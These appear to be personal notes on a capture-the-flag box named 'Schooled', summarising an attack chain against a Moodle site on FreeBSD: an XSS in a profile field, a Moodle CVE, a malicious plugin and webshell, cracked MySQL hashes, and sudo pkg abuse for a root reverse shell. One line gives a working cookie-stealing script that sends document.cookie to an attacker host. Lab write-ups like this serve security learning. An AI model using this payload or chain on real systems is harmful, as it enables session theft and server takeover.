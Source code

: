 # Summary
- Takeaways:
	- make sure to search for CVEs on MITRE or another database, don't always come up on search engines
	- continue to use `find` to search for file and binaries when they aren't in usual spots or on PATH
	- focus more on things that seem to be hints
	- XSS is a possibility on newer boxes
- User: XSS to login as teacher, CVE to elevate to manager and grant new permissions, upload malicious plugin to get RCE, crack creds from MySQL database to get user
- Root: user is able to run `pkg` as user and can abuse it to install a custom malicious package that runs arbitrary commands

# Details
### User
- scan reveals port 22, 80, and 33060 are open
	- "mysqlx" running on 33060, but unable to log in, even after getting foothold and MySQL creds
- website shows landing page for a school, several pages mention Moodle
- checking subdomain at "moodle.schooled.htb" gives access to Moodle install
- able to create a user and self-enroll in the Mathematics course
- math teacher has a post that mentions everyone must link to their Moodlenet profile and that he will be checking it
- possible to set Moodlenet link in profile, and the field is vulnerable to XSS
- can insert script that sends cookie to us, the "teacher" will periodically visit our profile so it's possible to steal their cookie and login as them
	- `<script>window.location="http://10.10.14.110:8000/?data=" + document.cookie</script></script><script src=file:///etc/passwd></script>`
- after logging in as teacher, can use CVE and "log in as" functionality to gain manager permissions, install a malicious plugin, and achieve RCE
	- some difficulty with this privesc, intercepting the requests and changing the id and role id rarely seems to work (only worked once)
	- https://github.com/HoangKien1020/CVE-2020-14321
	- https://vimeo.com/441698193
	- must enroll other teacher who has "manager" permissions in our class, intercept the request and change the ID to ours and the role id to 1 (manager)
	- must then actually enroll the teacher into our class before visiting their profile and using "log in as" to impersonate them
	- can then configure roles to grant extra privileges to managers (which we now are) that will allow them to install plugins
	- can then upload malicious plugin (zipfile) that can execute code
	- malicious plugin is somewhat unreliable, so best to use it to write a small PHP webshell into a retrievable directory and use that instead
- foothold on the server allows us to retrieve MySQL creds from `config.php`
- can also see users `jamie` and `steve` in the home directory
- searching through the users in the MySQL database shows that there is a "Jamie" in there as well (also in our class)
- cracking their password with `john` allows us to login as them and grab the flag

### Root
- `jamie` is able to run `pkg` with `sudo` and can install arbitrary packages
- possible to use `fpm` to build a malicious FreeBSD package that executes a script prior to install
- can insert any commands into the script and open a reverse shell as root

#### Tags: FreeBSD, XSS, fpm, redo because of issues
